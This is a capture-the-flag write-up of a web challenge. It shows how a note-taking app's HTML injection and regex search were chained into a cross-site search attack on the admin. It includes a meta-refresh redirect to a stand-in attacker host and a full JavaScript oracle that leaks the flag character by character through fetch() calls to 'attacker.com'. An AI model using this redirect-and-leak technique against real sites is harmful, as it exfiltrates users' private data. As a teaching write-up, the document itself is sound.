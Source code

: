 # Scratchpad (web, 324p, 19 solves)

![main](./files/main.png)

Scratchpad is Web challenge implementing a simple note taking application where you can authenticate, register, create/delete/edit and **report** a note composed of a title and a description.

The application source code is available here:

[sources](./files/sources)

Reporting a note will make the admin authenticate with his credentials and consume the note with a **firefox** browser:

```typescript
const driver = new Builder()
  .forBrowser("firefox")
  .setFirefoxOptions(
    new firefox.Options()
      .headless()
      .setAlertBehavior(UserPromptHandler.DISMISS) as firefox.Options
  )
  .build();
try {
  console.log("Logging in");
  await driver.get(new URL("/login", baseUrl).toString());
  let el = await driver.findElement(By.id("name"));
  await el.sendKeys("admin");
  el = await driver.findElement(By.id("password"));
  await el.sendKeys(adminPassword);
  el = await driver.findElement(By.id("submit"));
  await el.click();

  console.log("Visiting report");
  await driver.get(new URL(`/notes/${id}`, baseUrl).toString());
  await driver.sleep(30 * 1000);
} finally {
  await driver.quit();
}
```

On the top left corner we also noticed this search bar linked to a specific `POST` form.

![home](./files/home.png)

Creating a simple note with `<img src=x>` shows that the note renderer template is vulnerable to XSS:

![img-src](./files/img-src.png)

However, the CSP in place does not allow us inject any type of script, image, iframe or object pointing on something else than self (it is very strict):

```http
Content-Security-Policy: default-src 'none';
                         style-src 'self';
                         img-src 'self';
                         form-action 'self';
                         base-uri 'none';
```

> We know the flag is in the admin notes, and there is an "IDOR" on the `/notes/:id` endpoint. Even if an UUID is unique enough, if we can leak it, we can access the content of the admin note.

```typescript
import * as assert from "assert";
import * as massive from "massive";
import utils from "./utils";

assert.ok(process.env.ADMIN_PASSWORD, "ADMIN_PASSWORD is not set");
assert.ok(process.env.FLAG, "FLAG is not set");
assert.ok(process.env.DB, "DB is not set");

async function main() {
  const db = await massive(process.env.DB);

  // Creates admin use
  const user = await db.users
    .insert({
      name: "admin",
      password: utils.hashPassword(process.env.ADMIN_PASSWORD),
    })
    .catch(console.log);

  // Insert flag
  await db.notes.insert({
    user_id: user.id,
    title: "Flag",
    content: process.env.FLAG,
    favourite: true,
  });
}

main();
```

## Going deeper

Trying a few things on the `q` parameter to search note, we found that the parameter is being translated as a regex by the massiveJS "ORM". This allows us to perform simple queries such as.

```shell
# Having a note with 'abcdefghijklmnopqrst' as name/description

http://scratchpad.hackable.software:3000/notes?q=a.*    -> 200
http://scratchpad.hackable.software:3000/notes?q=ab.*   -> 200
http://scratchpad.hackable.software:3000/notes?q=abc.*  -> 200
http://scratchpad.hackable.software:3000/notes?q=abz.*  -> 404
http://scratchpad.hackable.software:3000/notes?q=abcd.* -> 404
```

We can use the `object` tag in firefox to get an oracle and perform XSS Search if we are able to redirect the user on our own domain.

To perform a redirect with the in place CSP, we used the `meta` tag method:

```html
<meta http-equiv="refresh" content="0;URL='http://attacker.com:31337/'" />
```

The victim is now on our domain, executing our javascript/html.

```html
<object data=http://scratchpad.hackable.software:3000/notes?q=D.* onerror=willbecalled()></object>
<object data=http://scratchpad.hackable.software:3000/notes?q=Dg.* onerror=willbecalled()></object>
<object data=http://scratchpad.hackable.software:3000/notes?q=Dgr.* onerror=willbecalled()></object>
<object data=http://scratchpad.hackable.software:3000/notes?q=Dgx.* onerror=willnotbecalled()></object>
```

If a 404 error occurs, the onerror callback will be call. Otherwise, we can leak the found character.

We can automate this oracle to leak the flag:

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    <div id="container"></div>
    <script src="main.js"></script>
  </body>
</html>
```

```javascript
const BASE = "http://scratchpad.hackable.software:3000/notes?q=";

const LEAK_URL = "http://attacker.com:31337/?found=";

const RANGE = { min: 0, max: 0x7f };

function escapeRegExp(string) {
  return string.replace(/[.*+\-?^${}()|[\]\\]/g, "\\$&"); // $& means the whole matched string
}

async function leak(content) {
  return await fetch(`${LEAK_URL}${content}`);
}

async function addObject(url, callback) {
  const o = document.createElement("object");
  o.setAttribute("data", url);
  o.setAttribute("style", "width: 100%;height: 300px;");

  o.addEventListener("error", callback);

  const container = document.getElementById("container");

  container.appendChild(o);
}

function getHex(n) {
  const h = (s) => ("00" + s.toString(16)).substr(-2);
  return `\\x${h(n)}`;
}

async function checkRange(prefix, min, max) {
  console.log(`checkRange(${prefix}, ${min}, ${max})`);

  // We found a valid char, leak it, and go for the next one
  if (min === max) {
    const ch = String.fromCharCode(min);
    await leak(prefix + ch);
    return await checkRange(prefix + ch, RANGE.min, RANGE.max);
  }

  const half = Math.floor((min + max) / 2);

  const testRange = async (prefix, min, max, err) => {
    const payload = `${escapeRegExp(prefix)}[${getHex(min)}-${getHex(max)}]`;
    await addObject(BASE + encodeURIComponent(payload), err);
  };

  // Test the first half
  await testRange(prefix, min, half, async () => {
    await checkRange(prefix, half + 1, max);
  });

  // Test the second half
  await testRange(prefix, half + 1, max, async () => {
    await checkRange(prefix, min, half);
  });
}

async function main() {
  // DrgnS{NoSameSiteCookiesByDefault?!}
  return await checkRange("DrgnS", RANGE.min, RANGE.max);
}

main();
```

Reporting our note containing the `meta` tag will redirect the admin on our page. The page will then generate enough `object` tags to leak all the character of the flag using XSSSearch:

![flag](./files/flag.png)
